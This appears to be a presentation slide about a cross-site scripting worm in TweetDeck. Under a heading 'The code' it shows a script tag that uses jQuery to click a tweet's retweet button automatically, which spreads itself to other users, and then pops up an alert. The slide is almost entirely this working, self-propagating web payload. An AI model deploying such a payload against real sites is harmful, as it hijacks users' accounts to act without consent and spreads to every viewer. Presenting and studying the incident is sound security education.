

# The code
	<script class="xss">
$('.xss').parents().eq(1).find('a')
.eq(1).click();$('[data-action=retweet]').click();
alert('XSS in Tweetdeck')
</script>♥